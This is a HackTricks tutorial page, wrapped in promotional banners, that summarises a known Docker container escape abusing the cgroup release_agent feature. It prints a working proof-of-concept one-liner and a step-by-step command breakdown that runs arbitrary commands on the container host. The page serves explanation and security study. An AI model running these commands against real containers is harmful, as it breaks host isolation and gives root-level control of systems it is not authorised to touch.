 # Docker release\_agent cgroups escape

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

### [WhiteIntel](https://whiteintel.io)

<figure><img src="/.gitbook/assets/image (1224).png" alt=""><figcaption></figcaption></figure>

[**WhiteIntel**](https://whiteintel.io) is a **dark-web** fueled search engine that offers **free** functionalities to check if a company or its customers have been **compromised** by **stealer malwares**.

Their primary goal of WhiteIntel is to combat account takeovers and ransomware attacks resulting from information-stealing malware.

You can check their website and try their engine for **free** at:

{% embed url="https://whiteintel.io" %}

---


**For further details, refer to the [original blog post](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/).** This is just a summary:

Original PoC:

```shell
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;echo "#!/bin/sh
$1 >$t/o" >/c;chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```

The proof of concept (PoC) demonstrates a method to exploit cgroups by creating a `release_agent` file and triggering its invocation to execute arbitrary commands on the container host. Here's a breakdown of the steps involved:

1. **Prepare the Environment:**
   - A directory `/tmp/cgrp` is created to serve as a mount point for the cgroup.
   - The RDMA cgroup controller is mounted to this directory. In case of absence of the RDMA controller, it's suggested to use the `memory` cgroup controller as an alternative.

```shell
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
```

2. **Set Up the Child Cgroup:**
    - A child cgroup named "x" is created within the mounted cgroup directory.
    - Notifications are enabled for the "x" cgroup by writing 1 to its notify_on_release file.

```shell
echo 1 > /tmp/cgrp/x/notify_on_release
```

3. **Configure the Release Agent:**
    - The path of the container on the host is obtained from the /etc/mtab file.
    - The release_agent file of the cgroup is then configured to execute a script named /cmd located at the acquired host path.

```shell
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
```

4. **Create and Configure the /cmd Script:**
    - The /cmd script is created inside the container and is configured to execute ps aux, redirecting the output to a file named /output in the container. The full path of /output on the host is specified.

```shell
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
```

5. **Trigger the Attack:**
    - A process is initiated within the "x" child cgroup and is immediately terminated.
    - This triggers the `release_agent` (the /cmd script), which executes ps aux on the host and writes the output to /output within the container.

```shell
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

### [WhiteIntel](https://whiteintel.io)

<figure><img src="/.gitbook/assets/image (1224).png" alt=""><figcaption></figcaption></figure>

[**WhiteIntel**](https://whiteintel.io) is a **dark-web** fueled search engine that offers **free** functionalities to check if a company or its customers have been **compromised** by **stealer malwares**.

Their primary goal of WhiteIntel is to combat account takeovers and ransomware attacks resulting from information-stealing malware.

You can check their website and try their engine for **free** at:

{% embed url="https://whiteintel.io" %}

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
